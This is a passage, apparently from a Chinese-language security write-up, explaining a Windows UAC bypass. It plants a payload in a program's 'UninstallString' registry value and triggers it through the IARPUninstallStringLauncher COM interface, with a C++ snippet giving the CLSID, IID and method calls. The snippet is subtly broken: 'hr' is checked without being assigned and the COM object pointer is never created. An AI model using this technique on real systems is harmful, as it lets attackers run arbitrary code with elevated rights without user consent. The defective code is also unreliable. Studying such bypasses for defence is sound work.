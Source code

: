 - 高权限程序对应注册表键值`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\`
- 低权限程序对应注册表键值`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Uninstall\`(实际上为`HKEY_USERS\[sid]\Software\Microsoft\Windows\CurrentVersion\Uninstall\`)

在卸载程序时，同时会删除程序对应的注册表键值

而我们在删除高权限的程序时，会删除`HKEY_LOCAL_MACHINE\`下的键值，正常情况下该操作会弹出UAC对话框，但实际上并没有，这里就可以判断系统“偷偷”绕过了UAC

如果我们能够模拟这个功能，那么也能“偷偷”绕过UAC

### 2、执行程序

注册表项Uninstall下有一个键为"UninstallString"，内容为要执行的命令

如果我们替换成payload，就能实现高权限执行，即UAC绕过并执行任意程序

以上两点相结合，满足了通过COM组件绕过UAC的必要条件

所以，接下来只要能够模拟卸载程序的功能即可

逆向分析过程和模拟卸载的功能ExpLife在他的文章中已经写得很详细，不再赘述

引用文中的分析：

> 通过调用位于CARPUninstallStringLauncherCOM组件中IARPUninstallStringLauncher接口的LaunchUninstallStringAndWait方法来实现卸载程序

关键代码如下：

```
	CLSID  clsid;
	IID iid;
	LPVOID ppv = NULL;
	HRESULT hr;
	PFN_IARPUninstallStringLauncher_LaunchUninstallStringAndWait pfn_LaunchUninstallStringAndWait = NULL;
	PFN_IARPUninstallStringLauncher_Release pfn_IARPUninstallStringLauncher_Release = NULL;
	if (IIDFromString(L"{FCC74B77-EC3E-4DD8-A80B-008A702075A9}", &clsid) ||
		IIDFromString(L"{F885120E-3789-4FD9-865E-DC9B4A6412D2}", &iid))
	return 0;
	CoInitialize(NULL);
	if (SUCCEEDED(hr))
	{
			pfn_LaunchUninstallStringAndWait  = (PFN_IARPUninstallStringLauncher_LaunchUninstallStringAndWait)(*(DWORD*)(*(DWORD*)ppv + 12));
			pfn_IARPUninstallStringLauncher_Release = (PFN_IARPUninstallStringLauncher_Release)(*(DWORD*)(*(DWORD*)ppv + 8));
			if (pfn_LaunchUninstallStringAndWait && pfn_IARPUninstallStringLauncher_Release)
			{
				pfn_LaunchUninstallStringAndWait((LPVOID*)ppv, 0, L"{18E78D31-BBCC-4e6f-A21D-0A15BBC62D49}", 0, NULL);
				pfn_IARPUninstallStringLauncher_Release((LPVOID*)ppv);
			}
	}
	CoUninitialize();
	return 0;
```
